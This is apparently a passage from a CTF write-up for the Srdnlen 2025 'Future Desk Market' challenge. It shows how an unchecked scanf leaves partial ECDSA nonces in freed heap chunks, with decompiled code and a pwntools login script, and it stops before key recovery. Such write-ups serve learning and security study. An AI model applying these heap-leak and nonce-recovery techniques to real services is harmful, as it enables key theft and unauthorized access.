# Future Desk Market

**CTF:** Srdnlen CTF 2025\
**Category:** Crypto PWN\
**Difficulty:** Hard\
**Solves:** TBA\
**Authors:** [@doliv](https://github.com/doliv8) (Diego Oliva) & [@guaddu](https://github.com/guaddu) (Davide Sechi)

---

## Description

> This service is a marketplace where you can put your desks for sale and see the desks that others put for sale; in this market the listings can be signed in order to allow other users to verify their authenticity.
> 
> Our current monetization plan isn't fully defined yet. We are working on a premium plan but that isn't released yet...
> 
> In the next FDM update, you will be able to buy a FDM GOLD subscription that will give you access to some extra features:
>  - Login authentication for improved security
>  - Customizable colors in listing descriptions (BETA)
>  - Listing preview (BETA)
>  - Remove listings
> 
> For the time being it's not possible to buy the FDM GOLD plan, as our admin is still testing the new features, but you can still use the basic features.
> 
> This is a remote challenge, you can connect to the service with: `nc fdm.challs.srdnlen.it 2025`
> 
> Authors: @doliv & @guaddu
> 
> sha1sum(s):
> ```bash
> 2e8fdfe5d5f6dc574338b9eb94476ad1dd01d17c  Dockerfile
> 53702c307c7125884f0a7bc7d368c396ff225887  FDM
> ```

---

## Overview

The challenge is a marketplace service for desks.

First of all you need to log in, to do so you have to insert your ECDSA public key.

At this point there is a menu that offers 8 options:

1. Put a desk for sale
2. Sign a listing that you put up for sale but didn't sign yet
3. Remove a listing that you put up for sale (only for FDM GOLD users)
4. Obtain the list of the desks that were put for sale
5. Check the authenticity of a listing (get poster's public key and signature of the listing)
6. Acquire FDM GOLD subscription (fake)
7. Log out
8. Exit the program

## Solution

### Intuition

You have to log in as a gold user, so, since you can't become a gold user yourself, you have to sign something with the existent gold user's private key.

ECDSA is known to be vulnerable to attacks that let you recover the private key through multiple partial leaks of the nonces used in some signatures you know.

Here you have 40 signatures generated by the gold user, if you can recover some partial leaks of the nonces you can definetly recover his private key.

### Logging in: generating the ECDSA key

_To avoid wasting time generating a valid secp256r1 ECDSA key and test out the program right away, you can just provide point G as public key, as it passes the login checks (is in the curve)._

To login it's first needed to generate a **ECDSA key** and calculate its corresponding public key. To login you will need to provide your public key coordinates. By doing so you will be able to login:

```py
import os
from pwn import remote
from sage.all import (
    EllipticCurve,
    GF
)
from math import log2, ceil
from Crypto.Util.number import bytes_to_long

sla = lambda *x, **y: io.sendlineafter(*x, **y)
ru = lambda *x, **y: io.recvuntil(*x, **y)
rl = lambda *x, **y: io.recvline(*x, **y)

# init secp256r1 curve
p = 0xffffffff00000001000000000000000000000000ffffffffffffffffffffffff
a = 0xffffffff00000001000000000000000000000000fffffffffffffffffffffffc
b = 0x5ac635d8aa3a93e7b3ebbd55769886bc651d06b0cc53b0f63bce3c3e27d2604b
n = 0xffffffff00000000ffffffffffffffffbce6faada7179e84f3b9cac2fc632551
E = EllipticCurve(GF(p), [a, b])
E.set_order(n)
G = E(0x6b17d1f2e12c4247f8bce6e563a440f277037d812deb33a0f4a13945d898c296, 0x4fe342e2fe1a7f9b8ee7eb4a7c0f9e162bce33576b315ececbb6406837bf51f5)

def randrange(a, b):
    while True:
        tmp = bytes_to_long(os.urandom((ceil(log2(b)) + 7) // 8))
        if a <= tmp < b:
            return tmp


def auth(pub_key):
    sla(b'> ', b'1')

    sla(b'Give me your ECDSA Public Key to be used: ', '{}, {}'.format(*pub_key[:2]).encode())


io = remote('127.0.0.1', 1337)

# generate user key
my_d = randrange(1, n)
my_Q = my_d * G

auth(my_Q)

io.interactive()
```


### First PWN part: getting the partial nonce leaks

The way you can recover those partial leaks of the nonces is by using an uninitialized memory vulnerability.\
By looking around at functions in the binary, one should have stood out to you as it allows to input data and later present it (through the `show_listings` function): `add_listing`. Here it is, decompiled by Ghidra:

```c
void add_listing(void) {
  char is_admin;
  int iVar1;
  void *new_desk_info;
  long in_FS_OFFSET;
  char local_19;
  undefined8 *new_desk;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  if (listings_count == 0x1000) {
    puts("The max listings capacity has been reached, our databases are full at the moment!");
  }
  else {
    is_admin = point_eq(user_Q,admin_Q);
    if (is_admin != '\0') {
      printf("Do you want to try out our new BETA features? (y/n): ");
      __isoc99_scanf("%c%*c",&local_19);
      iVar1 = tolower((int)local_19);
      if (iVar1 == L'y') {
        add_listing_beta();
        goto LAB_00102fc2;
      }
    }
    new_desk = (undefined8 *)malloc(0x28);
    *new_desk = listings;
    puts(
        "You will now be asked to describe the desk you are trying to sell! Be careful specifing ALL  the fields correctly!"
        );
    new_desk_info = malloc(0x148);
    new_desk[1] = new_desk_info;
    *(undefined1 **)(new_desk[1] + 0x140) = user_Q;
    printf("Insert the listing name (displayed in the listings page): ");
    get_str(new_desk[1],0x20);
    printf("Insert the listing description: ");
    get_str(new_desk[1] + 0x20,0x100);
    printf("Insert your target listing price: ");
    __isoc99_scanf("%f",(long)new_desk + 0x1c);
    printf("Specify your desk\'s measures (Depth x Width x Height) in centimeters: ");
    iVar1 = __isoc99_scanf("%f x %f x %f",new_desk + 2,(long)new_desk + 0x14,new_desk + 3);
    if (iVar1 == 3) {
      listings = new_desk;
      listings_count = listings_count + 1;
      *(undefined *)(new_desk + 4) = 0;
      puts("Listing added successfully");
    }
    else {
      free((void *)new_desk[1]);
      free(new_desk);
    }
  }
LAB_00102fc2:
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
}
```

Note that `new_desk` local variable will point to a `0x30` sized heap chunk. (`0x28` bytes request + `0x8` bytes for the `malloc_chunk` header).\
Also note that when parsing user's input price, there's no check for successful capture of the single `%f` parameter by `__isoc99_scanf`, which could be tricked into failing by sending `-` as input string; that would leave the heap memory relative to the price field (`4 bytes` at offset `+0x1c`) of the `new_desk` structure uninitialized thus preserving its previous content if the chunk returned by malloc came from a free bin.

The uninitialized memory can then be leaked by parsing the price shown by the `show_listings` function (last inserted listing is #1), as you can see in the picture below:



And here are the corresponding bytes (`IEEE754` floating point to bytes conversion):




Now it's time to ask: **where do those leaked bytes come from?**\
The answer is fairly easy: before allowing user interaction the binary has to setup some things first, in order to display those 40 listings signed by the gold user; the functions responsible for this are:
* `init_crypto` (initializes the secp256r1 elliptic curve)
* `add_admin_listings` (simulates the gold user actions to add their listings and later sign them all)

Before diving into those interesting functions' code it is definitely useful to make a small introduction to how GMP works with its data types if this is your first time taking a look at GMP library internals.

The main data type used to represent variable sized integers while using the library is `mpz_t`.
Useful data types definitions can be easily found in `gmp-h.in`:

```c
#ifdef __GMP_SHORT_LIMB
typedef unsigned int		mp_limb_t;
typedef int			mp_limb_signed_t;
#else
#ifdef _LONG_LONG_LIMB
typedef unsigned long long int	mp_limb_t;
typedef long long int		mp_limb_signed_t;
#else
typedef unsigned long int	mp_limb_t;
typedef long int		mp_limb_signed_t;
#endif
#endif
typedef unsigned long int	mp_bitcnt_t;

/* For reference, note that the name __mpz_struct gets into C++ mangled
   function names, which means although the "__" suggests an internal, we
   must leave this name for binary compatibility.  */
typedef struct
{
  int _mp_alloc;		/* Number of *limbs* allocated and pointed
				   to by the _mp_d field.  */
  int _mp_size;			/* abs(_mp_size) is the number of limbs the
				   last field points to.  If _mp_size is
				   negative this is a negative number.  */
  mp_limb_t *_mp_d;		/* Pointer to the limbs.  */
} __mpz_struct;

typedef __mpz_struct MP_INT;    /* gmp 1 source compatibility */
typedef __mpz_struct mpz_t[1];

typedef mp_limb_t *		mp_ptr;
```

The most used GMP functions in the binary (with additional functions they reference) are the following:

```c
void * __gmp_default_allocate(size_t size) {
  void *pvVar1;
  size_t size_local;
  void *ret;
  
  pvVar1 = malloc(size);
  if (pvVar1 == (void *)0x0) {
    fprintf(_stderr,"GNU MP: Cannot allocate memory (size=%lu)\n",size);
                    /* WARNING: Subroutine does not return */
    abort();
  }
  return pvVar1;
}

void * __gmp_default_reallocate(void *oldptr,size_t old_size,size_t new_size) {
  void *pvVar1;
  size_t new_size_local;
  size_t old_size_local;
  void *oldptr_local;
  void *ret;
  
  pvVar1 = realloc(oldptr,new_size);
  if (pvVar1 == (void *)0x0) {
    fprintf(_stderr,"GNU MP: Cannot reallocate memory (old_size=%lu new_size=%lu)\n",old_size,
            new_size);
                    /* WARNING: Subroutine does not return */
    abort();
  }
  return pvVar1;
}

void __gmp_default_free(void *blk_ptr,size_t blk_size) {
  size_t blk_size_local;
  void *blk_ptr_local;
  
  free(blk_ptr);
}

void __gmp_set_memory_functions
               (_func_void_ptr_size_t *alloc_func,
               _func_void_ptr_void_ptr_size_t_size_t *realloc_func,
               _func_void_void_ptr_size_t *free_func) {
  _func_void_void_ptr_size_t *free_func_local;
  _func_void_ptr_void_ptr_size_t_size_t *realloc_func_local;
  _func_void_ptr_size_t *alloc_func_local;
  
  alloc_func_local = alloc_func;
  if (alloc_func == (_func_void_ptr_size_t *)0x0) {
    alloc_func_local = __gmp_default_allocate;
  }
  realloc_func_local = realloc_func;
  if (realloc_func == (_func_void_ptr_void_ptr_size_t_size_t *)0x0) {
    realloc_func_local = __gmp_default_reallocate;
  }
  free_func_local = free_func;
  if (free_func == (_func_void_void_ptr_size_t *)0x0) {
    free_func_local = __gmp_default_free;
  }
  __gmp_allocate_func = alloc_func_local;
  __gmp_reallocate_func = realloc_func_local;
  __gmp_free_func = free_func_local;
}

void __gmpz_init(mpz_ptr x) {
  x->_mp_alloc = 0;
  x->_mp_d = &__gmpz_init::dummy_limb;
  x->_mp_size = 0;
}

void __gmpz_clear(mpz_ptr x) {
  if (x->_mp_alloc != 0) {
    (*__gmp_free_func)(x->_mp_d,(long)x->_mp_alloc * 8);
  }
}

void * __gmpz_realloc(mpz_ptr m,mp_size_t new_alloc) {
  int iVar1;
  mp_size_t new_alloc_local;
  mpz_ptr m_local;
  mp_ptr mp;
  
  if (new_alloc < 1) {
    new_alloc = 1;
  }
  if (0x7fffffff < new_alloc) {
                    /* WARNING: Subroutine does not return */
    __gmp_overflow_in_mpz();
  }
  if (m->_mp_alloc == 0) {
    mp = (mp_ptr)(*__gmp_allocate_func)(new_alloc << 3);
  }
  else {
    mp = (mp_ptr)(*__gmp_reallocate_func)(m->_mp_d,(long)m->_mp_alloc * 8,new_alloc * 8);
    if (m->_mp_size < 0) {
      iVar1 = -m->_mp_size;
    }
    else {
      iVar1 = m->_mp_size;
    }
    if (new_alloc < iVar1) {
      m->_mp_size = 0;
    }
  }
  m->_mp_d = mp;
  m->_mp_alloc = (int)new_alloc;
  return mp;
}

void __gmpz_set(mpz_ptr w,mpz_srcptr u) {
  int iVar1;
  long new_alloc;
  mpz_srcptr u_local;
  mpz_ptr w_local;
  mp_ptr up;
  mp_ptr wp;
  mp_size_t size;
  mp_size_t usize;
  
  iVar1 = u->_mp_size;
  new_alloc = (long)iVar1;
  if (new_alloc < 1) {
    new_alloc = -new_alloc;
  }
  if (w->_mp_alloc < new_alloc) {
    __gmpz_realloc(w,new_alloc);
  }
  __gmpn_copyi();
  w->_mp_size = iVar1;
}

void __gmpz_set_ui(mpz_ptr dest,ulong val) {
  ulong *puVar1;
  ulong val_local;
  mpz_ptr dest_local;
  mp_size_t size;
  
  if (dest->_mp_alloc < 1) {
    puVar1 = (ulong *)__gmpz_realloc(dest,1);
  }
  else {
    puVar1 = dest->_mp_d;
  }
  *puVar1 = val;
  dest->_mp_size = (uint)(val != 0);
}
```

Basically GMP `mpz_t` variable size integers are managed through dynamic sized arrays (allocated in glibc's heap) of "limbs" (`mp_limb_t`), which are the building blocks of mpz_t's dynamic part.


Some basic structs used in the binary are these (can be reconstructed by just taking a look at what `init_crypto` function does):

```c
struct Curve {
    mpz_t p;
    mpz_t a;
    mpz_t b;
    mpz_t n;
};

struct Point {
    Curve* curve;
    mpz_t x;
    mpz_t y;
    Point* O;
    bool is_O;
};
```

Going back to the binary's functions: some cryptographic operations are done inside `add_admin_listings` so let's take a look at it:

```c
void add_admin_listings(void) {
  int iVar1;
  qword qVar2;
  undefined8 *newdesk;
  void *new_desk_info;
  long in_FS_OFFSET;
  Point temp_admin_Q;
  int local_3448;
  int local_3444;
  int idx;
  int i;
  undefined8 *desk;
  __mpz_struct d;
  __mpz_struct r [40];
  __mpz_struct s [40];
  intptr_t hashable_desks [1500];
  byte random_buf [40];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  urandom_fd = open("/dev/urandom",0);
  __gmpz_init(&d);
  do {
    do {
      __gmpz_set_ui(&d,0);
      read(urandom_fd,random_buf,0x20);
      for (local_3448 = 0; local_3448 < 0x20; local_3448 = local_3448 + 1) {
        for (local_3444 = 7; -1 < local_3444; local_3444 = local_3444 + -1) {
          __gmpz_mul_ui(&d,&d,2);
          __gmpz_add_ui(&d,&d,(long)((int)((uint)random_buf[local_3448] &
                                          1 << ((byte)local_3444 & 0x1f)) >>
                                    ((byte)local_3444 & 0x1f)));
        }
      }
    } while ((-1 < d._mp_size) && (d._mp_size < 1));
    qVar2 = __gmpz_cmp(&d,(__mpz_struct *)&P256.n._mp_d);
  } while (-1 < (int)qVar2);
  scalar_multiplication(&temp_admin_Q,&d,&G);
  admin_Q.curve = temp_admin_Q.curve;
  admin_Q.x._mp_alloc = temp_admin_Q.x._mp_alloc;
  admin_Q.x._mp_size = temp_admin_Q.x._mp_size;
  admin_Q.x._mp_d = temp_admin_Q.x._mp_d;
  admin_Q.y._mp_alloc = temp_admin_Q.y._mp_alloc;
  admin_Q.y._mp_size = temp_admin_Q.y._mp_size;
  admin_Q.y._mp_d = temp_admin_Q.y._mp_d;
  admin_Q.O = temp_admin_Q.O;
  admin_Q.is_O = temp_admin_Q.is_O;
  admin_Q._49_7_ = temp_admin_Q._49_7_;
  for (idx = 0; idx < 40; idx = idx + 1) {
    __gmpz_init(r + idx);
    __gmpz_init(s + idx);
    newdesk = (undefined8 *)malloc(0x28);
    *newdesk = listings;
    new_desk_info = malloc(0x148);
    newdesk[1] = new_desk_info;
    *(Point **)(newdesk[1] + 0x140) = &admin_Q;
    iVar1 = rand();
    strncpy((char *)newdesk[1],admin_desks_names + (long)(iVar1 % 0x32) * 0x20,0x20);
    iVar1 = rand();
    strncpy((char *)(newdesk[1] + 0x20),admin_desks_descriptions + (long)(iVar1 % 0x32) * 0x100,
            0x100);
    iVar1 = rand();
    *(float *)(newdesk + 2) = (float)(iVar1 % 10000) / 100.0;
    iVar1 = rand();
    *(float *)((long)newdesk + 0x14) = (float)(iVar1 % 20000) / 100.0;
    iVar1 = rand();
    *(float *)(newdesk + 3) = (float)(iVar1 % 10000) / 100.0;
    iVar1 = rand();
    *(float *)((long)newdesk + 0x1c) = (float)(iVar1 % 50000) / 100.0;
    strncpy((char *)((long)hashable_desks + (long)idx * 300),(char *)newdesk[1],0x20);
    strncpy((char *)((long)hashable_desks + (long)idx * 300 + 0x20),(char *)(newdesk[1] + 0x20),
            0x100);
    *(undefined8 *)((long)hashable_desks + (long)idx * 300 + 0x120) = newdesk[2];
    *(undefined4 *)((long)hashable_desks + (long)idx * 300 + 0x128) = *(undefined4 *)(newdesk + 3);
    listings_count = listings_count + 1;
    listings = newdesk;
  }
  sign(r,s,(intptr_t)hashable_desks,300,0,0x28,&d,&G,&P256,urandom_fd);
  desk = listings;
  for (i = 0; i < 40; i = i + 1) {
    __gmpz_set((__mpz_struct *)(desk[1] + 0x120),r + i);
    __gmpz_set((__mpz_struct *)(desk[1] + 0x130),s + i);
    *(undefined *)(desk + 4) = 1;
    desk = (undefined8 *)*desk;
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
}
```

The function first generates a valid private key `d` and calculates the corresponding public key `admin_Q` owned by the gold user, then it creates 40 new desk listings using random data.\
It then proceeds to call `sign` and updates the signature information of each newly created desk.

Let's see what is `sign` doing:

```c
void sign(__mpz_struct *r_arr,__mpz_struct *s_arr,intptr_t msgs,size_t hashable_size,size_t idx,
         size_t msgs_count,__mpz_struct *d,Point *G,Curve *curve,int urandom_fd) {
  int iVar1;
  qword qVar2;
  long in_FS_OFFSET;
  int i;
  int j;
  __mpz_struct z;
  __mpz_struct k;
  __mpz_struct inv_k;
  Point T;
  byte rand_buf [40];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  if (idx != msgs_count) {
    __gmpz_init(&z);
    sha256(&z,(void *)(msgs + idx * hashable_size),hashable_size);
    iVar1 = __gmpz_cmp_si(&z,0xffffffffffffffff);
    if (iVar1 < 1) {
                    /* WARNING: Subroutine does not return */
      __assert_fail("mpz_cmp_si(z, -1) > 0","src/ecdsa.c",100,"sign");
    }
    __gmpz_init(&k);
    __gmpz_init(&inv_k);
    do {
      do {
        __gmpz_set_ui(&k,0);
        read(urandom_fd,rand_buf,0x20);
        for (i = 0; i < 0x20; i = i + 1) {
          for (j = 7; -1 < j; j = j + -1) {
            __gmpz_mul_ui(&k,&k,2);
            __gmpz_add_ui(&k,&k,(long)((int)((uint)rand_buf[i] & 1 << ((byte)j & 0x1f)) >>
                                      ((byte)j & 0x1f)));
          }
        }
      } while ((-1 < k._mp_size) && (k._mp_size < 1));
      qVar2 = __gmpz_cmp(&k,(__mpz_struct *)&(curve->n)._mp_d);
    } while (-1 < (int)qVar2);
    __gmpz_invert(&inv_k,&k,(__mpz_struct *)&(curve->n)._mp_d);
    scalar_multiplication(&T,&k,G);
    __gmpz_set(r_arr + idx,&T.x);
    if ((r_arr[idx]._mp_size < 0) || (r_arr[idx]._mp_size < 1)) {
                    /* WARNING: Subroutine does not return */
      __assert_fail("mpz_cmp_ui(r_arr[idx], 0) > 0","src/ecdsa.c",0x83,"sign");
    }
    __gmpz_set(s_arr + idx,d);
    __gmpz_mul(s_arr + idx,s_arr + idx,r_arr + idx);
    __gmpz_add(s_arr + idx,s_arr + idx,&z);
    __gmpz_mul(s_arr + idx,s_arr + idx,&inv_k);
    __gmpz_mod(s_arr + idx,s_arr + idx,(__mpz_struct *)&(curve->n)._mp_d);
    if ((s_arr[idx]._mp_size < 0) || (s_arr[idx]._mp_size < 1)) {
                    /* WARNING: Subroutine does not return */
      __assert_fail("mpz_cmp_ui(s_arr[idx], 0) > 0","src/ecdsa.c",0x8a,"sign");
    }
    sign(r_arr,s_arr,msgs,hashable_size,idx + 1,msgs_count,d,G,curve,urandom_fd);
    __gmpz_clear(&z);
    __gmpz_clear(&k);
    __gmpz_clear(&inv_k);
    point_clear(&T);
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
}
```

Let's note that `sign` operates recursively, by calling itself again **before** deallocating its GMP `mpz_t` variables. As you have seen from how `__gmpz_clear` operates, it should be clear that it basically frees (by using glibc's `free` function) the memory dedicated to storing the dynamic sized integer (pointed by `__mpz_struct->_mp_d`).\
On every `sign` recursive call, *fresh* new memory is allocated and requested to the glibc's heap (the memory is not taken from free bins used by the last `sign` call).\
Basically, after recursion hits the default case and starts returning (ending life to all the allocated `sign` stack frames) all the GMP objects free ups take place: all the objects used by `sign` end up in free bins (first they fill the TCache and then they start getting put in Fast-Bins).

The size of those objects is rather easy to find out: all the cryptographic operations with the `secp256r1` elliptic curve happen in the `256bit` range, hence they are likely to be `256/8` = `0x20` bytes long (`+8` bytes of `malloc_chunk` header), resulting in `0x30` sized chunks thanks to the `0x10` alignment of heap chunks.

Now it should be clear that, after `add_admin_listings` execution, if requesting memory through `malloc` with sizes that fit in `0x30` sized chunks, the memory returned will come from Fast-Bins or TCache and the returned chunks will be the same ones previously used for holding integer representations of `sign` variables:
* z
* k
* inv_k
* T.x & T.y (as `point_clear(&T)` calls `__gmpz_clear` on the Point's x and y)

**The nonces** (that should absolutely be kept private when signing with ECDSA) **are still present in memory**.


### Hopping in GDB

_To debug gracefully it's suggested to use `set follow-fork-mode parent` as the program uses `popen` to calculate sha256 hashes during its signing process._

Here is the free bins status shown by pwndbg after breaking when asked to login by the program.




The nonce is the random generated value `k`. Breaking on `__gmpz_clear(&k);` it's possible to inspect its numerical value (keeping in mind `__mpz_struct` fields, the interest revolves around the `_mp_d` pointer field).

Here is the __mpz_struct of `k` (in this case of the last desk of the 40 ones) before getting cleared:



Heap chunk at `0x000055555556a530` holds the actual integer value of `k` which is 4 "GMP limbs" (`0x20` bytes) long.\
Here are `k`'s 5 allocated limbs:
```
                                unused but                    
   │ 8 bytes  │                 allocated  ─────────┐         
   |──────────|                   limb              ▼         
   ┌──────────┬──────────┬──────────┬──────────┬──────────┐   
   │ 288094c6 │ a2d9b05d │ 750431ae │ 26399230 │ 00000000 │   
   │ 3656ee65 │ 9044491d │ c0194534 │ 98c3ef38 │ 00000000 │   
   └──────────┴──────────┴──────────┴──────────┴──────────┘   
                                                              
0x65ee5636c6948028    0x344519c0ae310475    0x0000000000000000
                                                              
           0x1d4944905db0d9a2    0x38efc39830923926           
```

Here is how to calculate the actual `mpz_t` integer value:
```py
>>> from pwn import flat, context
>>> context.arch = 'amd64'
>>> context.endian
'little'
>>> int.from_bytes(flat(0x65ee5636c6948028, 0x1d4944905db0d9a2, 0x344519c0ae310475, 0x38efc39830923926, 0x0000000000000000), 'little')
25753145912709611922225372141519425716818490400521663051160895580647856570408
```
`k = 25753145912709611922225372141519425716818490400521663051160895580647856570408`


By stepping with the debugger and letting `__gmpz_clear(&k);` execute and checking free bins it can be seen that the integer chunk ended up in Fast-Bins and its first `8` bytes have been overwritten by the (protected) `fd` pointer of the `0x30` Fast-Bins linked list but the remaning `0x18` (most significant) bytes are left _untouched_:



And these mpz_t objects frees are going to happen 40 consecutive times until program flow goes back to where `sign` was first called: `add_admin_listings`.

The chunks that previously used to hold `k` nonces can be returned by `malloc` calls (that fall in the `0x30` size) and they will still contain the most significant part of the original nonce used in the signing process.

### Connecting the dots

Now piecing the given information together, it's clear what those `0x30` sized chunks getting returned by `malloc` when allocating new desks in `add_listing` (`new_desk = (undefined8 *)malloc(0x28);`) and what their content at the _untouched_ **price field** position were: former GMP limbs arrays of _4 to 5 limbs sized_ integers and the most significant 4 bytes of the fourth limb.

Here is a diagram of the same chunk being used for a mpz_t `k` nonce, freed, and later reallocated as a desk structure:

```
│  4 bytes  │                                                            
|───────────|                                                            
                            other                                        
         limb #1            limbs             limb #4           unused   
┌────────────────────────┐ ── ── ── ┌────────────────────────┐ ── ── ──  
│                        │          │                        │           
│    288094c63656ee65    │          │    2639923098c3ef38    │           
│                        │          │                        │           
└────────────────────────┘ ── ── ── └────────────────────────┘ ── ── ──  
▲                                                                        
└────────────── old mpz_t limbs chunk                                    
                                                                         
                            other                             other field
           next             fields      height       price     + unused  
┌────────────────────────┐ ── ── ── ┌────────────┬───────────┐ ── ── ──  
│                        │          │  inserted  │           │           
│  pointer to next desk  │          │     by     │  98c3ef38 │           
│                        │          │    user    │           │           
└────────────────────────┘ ── ── ── └────────────┴───────────┘ ── ── ──  
▲                                                                        
└────────────── new_desk structure chunk                                 
```

### A way to keep track of freed nonces chunks

After calling `sign`, `add_admin_listings` performs some operations that are going to pop and use some freed `0x30` chunks off TCache and Fast-Bins (precisely while calling `__gmpz_set` twice in the loop that sets signature information `r` and `s` for each desk).\
After that, `add_admin_listings` returns and the user is prompted to login. The action of logging in pops some `0x30` chunks off Fast-Bins aswell. Some of those popped chunks are going to be freed again anyway but their old content (partial nonce) will probably be overwritten and thus lost and impossible to recover.

By popping all the `0x30` fastbins some of them are going to be former `k` nonces, which are needed to recover the private key `d` used by the gold user to sign all its desks listings.

It has become clear that keeping track of which chunk previously used to hold a `k` nonce during signing process and now is used to hold a user-inserted desk structure gets very quickly out of hand.\
